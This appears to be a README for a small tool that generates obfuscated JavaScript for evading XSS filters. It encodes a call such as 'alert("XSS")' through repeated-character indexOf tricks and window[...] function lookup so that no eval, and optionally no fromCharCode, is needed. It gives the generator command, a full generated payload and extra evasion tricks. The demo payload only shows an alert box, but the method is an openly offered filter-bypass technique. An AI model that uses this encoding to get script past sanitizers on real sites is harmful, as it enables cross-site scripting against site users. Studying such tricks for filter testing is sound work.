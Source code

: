 # Obfuscated XSS for filter evasion

Playing with JavaScript for fun and XSS evasion.

## Usage

To generate an alert box containing 'XSS':

    python make_s.py alert -p "XSS" -o out.js

Should generate this:

    var f = window[String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())];
    f(String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf()));

To see what happened:

    cat pre out.js post > out.html

Then open ``out.html`` with your browser. You should see an alert box.

## Why

This is valid JavaScript:

    var foo = 'AAAAundefined'.indexOf();
    // 'foo' is now 4
    var chr = String.fromCharCode(97 + foo);
    // 'chr' is now 'e'

So one could encode a string like 'alert("XSS")' using any character repeated N times (with N the ASCII value of the character) followed by the string 'undefined'.

However, writing 'alert' is not enough; we'd like to execute it. To do so without an explicit call to 'eval':

    var f = window['alert'];
    var g = 'the parameter';
    // will alert 'the parameter'
    f(g);

Ultimately:

    1. Take a payload e.g. 'alert("XSS")'
    2. Encode the function call 'alert' and the parameter '"XSS"' using the 'indexOf' trick
    3. Execute the function using the 'window' trick

## MOAR Tricks

When generating the payload, to avoid the call to 'fromCharCode' use this (only for letters, as 36 here is a base):

    (11).toString(36); = 'b'

Also to avoid the 'undefined' string, use an empty function:

    function f() {}
    var foo = 'AAAA' + f();
    var foo2 = foo.indexOf()

## Thanks to

For the inspiration [this post by Neil Fraser][1]. For implementation, [this SO answer][2] and [this post][3].

 [1]: https://neil.fraser.name/news/2016/10/07/ 
 [2]: http://stackoverflow.com/questions/3145030/convert-integer-into-its-character-equivalent-in-javascript
 [3]: http://viralpatel.net/blogs/calling-javascript-function-from-string/
